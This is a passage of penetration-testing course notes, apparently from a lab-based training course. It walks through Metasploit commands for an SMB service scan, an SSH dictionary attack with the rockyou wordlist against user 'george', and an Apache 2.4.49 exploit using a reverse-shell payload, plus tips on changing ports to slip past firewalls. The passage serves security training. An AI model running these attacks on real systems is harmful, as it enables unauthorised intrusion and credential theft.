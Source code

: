 ```bash
> services -p 445 --rhosts
> run
> vulns # See if Metasploit automatically detected vulns based on the results
```

Next, let's use another module. In the Password Attacks Module, we successfully identified credentials on BRUTE by leveraging a dictionary attack against SSH. Instead of Hydra, we can also use Metasploit to perform this attack. To begin, we'll search for SSH auxiliary modules.

```bash
> search type:auxiliary ssh
> use 15
> show options
> set PASS_FILE /usr/share/wordlists/rockyou.txt
> set USERNAME george
> set RHOSTS 192.168.50.201
> set RPORT 2222
> run
> creds # See if Metasploit found any valid credentials
```

### Exploit Modules

Exploit modules most commonly contain exploit code for vulnerable applications and services. Metasploit contains over 2200 exploits at the time of this writing. Each was meticulously developed and tested, making MSF capable of successfully exploiting a wide variety of vulnerable services. These exploits are invoked in much the same way as auxiliary modules.


```bash
> workspace -a exploits
> search Apache 2.4.49
> use 0
> info
```

Check supported determines if we can use the check command to dry-run the exploit module and confirm if a target is vulnerable before we actually attempt to exploit it.

```bash
> show options
> set payload payload/linux/x64/shell_reverse_tcp
> set LHOST 192.168.45.175
```

In real penetration tests we may face the situation that port 4444 is blocked by firewalls or other security technologies. This is quite common as it is the default port for Metasploit's modules. In situations like this, changing the port number to ports associated with more commonly used protocols such as HTTP or HTTPS may lead to a successful execution of the selected payload.

We should note that we don't need to start a listener manually with tools such as Netcat to receive the incoming reverse shell. Metasploit automatically sets up a listener matching the specified payload.

Now, let's set the options SSL to false and RPORT to 80 since the target Apache web server runs on port 80 without HTTPS. Then, we set RHOSTS to the target IP and enter run.

